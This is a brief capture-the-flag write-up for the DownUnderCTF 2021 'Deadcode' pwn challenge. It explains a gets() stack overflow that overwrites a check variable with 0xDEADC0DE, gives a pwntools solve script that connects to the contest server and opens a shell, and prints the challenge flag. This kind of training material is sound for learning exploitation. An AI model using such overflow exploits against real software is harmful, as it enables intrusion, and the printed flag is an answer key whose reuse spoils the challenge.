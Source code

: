 # Deadcode

![](/2021/DownUnderCTF2021/Deadcode/images/1.png)

An easy pwn challenge of DownUnderCTF 2021

Let use IDA to reverse program

![](/2021/DownUnderCTF2021/Deadcode/images/2.png)

This is the simple buffer overflow task, the gets function causes a buffer overflow error, allows us to enter more than 24 characters (the length of the v4 array) and overwrites the v5 variable. Then the program checks if v5 == 0xDEADC0DE , we get the shell. The v4 variable is located at rbp-0x20, the v5 variable is located at rbp-0x8, so the distance is 0x18. Enter 0x18 characters ‘A’ and 0xDEADC0DE, we solved the challenge.

File [solve.py](/2021/DownUnderCTF2021/Deadcode/solve.py)

```python
from pwn import *
s = remote('pwn-2021.duc.tf', 31916)
s.sendline(b'A' * 0x18 + p32(0xDEADC0DE))
s.interactive()
```

![](/2021/DownUnderCTF2021/Deadcode/images/3.png)

`flag: DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}`
